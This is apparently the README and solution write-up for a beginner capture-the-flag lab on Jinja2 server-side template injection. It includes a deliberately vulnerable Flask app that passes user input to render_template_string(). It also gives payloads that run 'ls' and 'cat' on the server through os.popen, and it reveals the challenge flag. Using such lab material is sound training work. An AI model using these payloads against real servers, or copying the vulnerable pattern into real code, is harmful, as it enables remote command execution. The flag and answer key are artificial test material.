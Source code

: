 # SSTI-Intro

### Difficulty: Beginner

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine. Then, install the files `app.py` , `Dockerfile` and `flag-6fbbff92650117ea3994ead7b72dbda7.txt` into the same directory.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>


The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's analyze the source code and observe what kind of vulnerability does the server contains.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string

app=Flask(__name__)

@app.route('/', methods=('GET','POST'))
def index():
	if request.method=='POST':
		note=request.form['note']
		if note:
			return render_template_string(note)
		else:
			return('Please provide some text')
	return '''
		<form method="POST">
			Note:<input type="text" name="note">
			<input type="submit" value="Submit">
		</form>
	'''

if __name__=='__main__':
	app.run(host='0.0.0.0',port= 5000,debug=True) 

```

We can see that the source code contains `render_template_string()` which is a Jinja2 web template engine function for Python that has a SSTI vulnerability. 
Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is confirmed that the website is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` and read the files in the server.

![image](https://github.com/user-attachments/assets/16b5e54c-64fe-4fc6-a4eb-b1bf843e9af2)

Now we know that there is a file called `flag-6fbbff92650117ea3994ead7b72dbda7.txt` so we can use this payload to read the content of the file `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag-6fbbff92650117ea3994ead7b72dbda7.txt').read()}}`. Then, we should be able to retrieved the flag.

![image](https://github.com/user-attachments/assets/676d9337-6f06-4d9d-b429-601bf1f311cf)

## Flag
>flag{9e21e40be1f2003d55c96d6407e28b01}

</details>

